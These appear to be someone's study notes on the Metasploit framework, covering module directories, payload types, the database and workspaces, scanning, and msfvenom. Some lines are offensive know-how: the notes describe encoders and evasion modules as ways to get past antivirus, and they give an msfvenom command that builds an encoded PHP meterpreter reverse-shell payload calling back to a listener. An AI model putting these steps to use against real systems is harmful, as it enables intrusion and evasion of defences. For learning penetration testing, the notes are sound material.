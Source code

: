 
- For me the metasploit-framework directory lives here:
	- `/usr/share/metasploit-framework/modules/auxiliary`
- You can find where your msf directory is by:
	- `which msfconsole` 
	- Cat the `msfconsole` file and that will show you were the metasploit-framework directory lives in your system
	
- Auxiliary
	- Any supporting module, such as scanners, crawlers and fuzzers can be found in this directory
		- `tree -L 1 /usr/share/metasploit-framework/module`

- Encoders
	- Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them
	-  Security utilities like anti-virus solutions have a database of known threats. 
	- They tend to detect threats by comparing any suspect files to that database and will alert if there is a match 
	- Sometimes they'll do additional checks, so encoders have limited success depending on the security utility solution that the focused-machine(s) may be running
	- Encoders are located in the encoders directory
		- `tree -L 1 /usr/share/metasploit-framework/encoders`

- Evasion
	- These modules will do as the directory name suggests - to try and evade said security utilities that a focused-machine may have
	- These modules live here:
		- `tree -L 2 /usr/share/metasploit-framework/evasion`

- Exploits
	- `tree -L 1 /usr/share/metasploit-framework/exploits`

- NOPs (No OPeration)
	- Do nothing, lol
	- Normally used as buffers to achieve consistent payload sizes 
	- `tree -L 1 /usr/share/metasploit-framework/modules/nops`

- Payloads
	- Codes that will run on the focused-machine
	- Exploits will leverage a vulnerability, however, it will be the payload(s) that achieve whatever the adversary is wanting to do
	- Adapters
		- Wraps single payloads to convert them into various formats
		- ie wrapping a payload in a PowerShell adapter which will run a single PowerShell command which will also execute the payload
	- Singles
		- Self-contained payloads that don't have the need to download any additional components to run on 
		- ie launching ntoepad.exe, calc.exe, adding a user to the system
	- Stagers
		- Setting up a connection between Metasploit and the focused-machine
		- Useful for working with staged payloads
		- The staged payload is first uploaded on to the target system and then the rest of the payload is downloaded 
		- The initial size of the payload will be small when compared to the full payload being sent at once
	- Stages
		- Downloaded by the stager, allows the use of larger payloads
	- Identifying payload types:
		- `/shell_payload`
			- In-line, unstaged payload
		- `/shell/payload`
			- Staged payload 
		- Notice the differences above, the in-line variant has an underscore between shell and the payload name
		- The staged payload sits in its own directory called shell
	- `tree -L 1 /usr/share/metasploit-framework/modules/payloads`
	
- Post
	- Used in the final stage of the test
	- `tree -L 1 /usr/share/metasploit-framework/modules/post`

- Scanning
- Database Feature
- Vuln Scan
- Exploit Vulns
- `msfvenom`

- Scanning
	- use auxiliary/scanner/ (and whatever you find in here)
	- search
	- always use info to find out more about how the module works
	- options as well 
		- smb/smb_version || smb_enumusers || smb_enumshares
		- 
	- You can also run nmap when not within a module in msf
	- You can also do a udp scan
		- `use auxiliary/scanner/discovery/udp_sweep`
			- pretty neat

- Database Feature
	- Useful for when considering multiple devices so as to keep project management simplified and avoid possible confusion when setting parameters
	- Requires the use of `postgresql`
		- `systemctl start postgresql`
			- Make sure that the service has started and is running
		- `msfdb init`
			- Initialise the Metasploit Database
		- `db_status`
			- Check the status of the DB when inside the MSF Console
	- Workspaces
		- Workspaces can be created to isolate different projects
		- `help workspace`
			- works
			- Will list you the various options that you can use when wanting to work with workspace(s)
	- `db_nmap`
		- Report and findings will be saved to the database/workspace that is currently being worked in 
	- `hosts`
		- will list hosts that have been picked up and stored in the database
		- `-h` for more options
		- Once host information has been stored in the DB, you can use hosts -R to add variables to the RHOST parameter
	- `services`
		- Will list the services respective to each host running them that have been picked up 
		- `-h` for more options
		- `-S` will allow you to search the DB for services in the environment (that have been scanned and added to the DB)

- Vulnerability Scanners

- Exploits
	- Run `show payloads` when within an exploit module to show compatible payloads that can go with it
	- Take note that payloads may have additional requirements/parameters that may need to be set so also don't forget to run the `options` (or `show options`) command to see what may be needed
	- Backgrounding jobs
		- Works in MSF as well
		- `ctrl+z` to background a job
	- Sessions
		- `sessions` 
			- Will list all active sessions

- MSFVENOM
- `msfvenom`
	- `msvenom --list formats`
		- Will list supported output formats
			- ie Python
	- Encoders
		- Using modern obfuscation techniques or learning methods to inject shellcode is a better solution for a Red Team Operatives problem
		- But some encoding can help
		- Example:
			- `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.123.123.123 -f raw -e php/`
			- `-p` is the parameter for payload
			- `-f` is for format, the output format, in this case it will be raw
			- `-e` is the encoder
	- Using `exploit/multi/handler`
		- To receive returned (reversed) shells

- Meterpreter
	- Staged Payloads
		- Sent in two steps
			- Initial part is called the Stager and requests the rest of the payload
			- Allows for a smaller initial payload size
	- Inline Payloads (unstaged)
		- Sent in a single step

- Viewing Meterpreter Payloads
		`msfvenom --list payloads | grep meterpreter`

- Consider
	- The OS of the system you are focusing on
		- ie  Android, Windows, OSX, Linux
	- Components that are running on it
	- Network Connection types that are available

- When in Console, don't forget about the `show payloads` command when within a module
	- Can be helpful

- 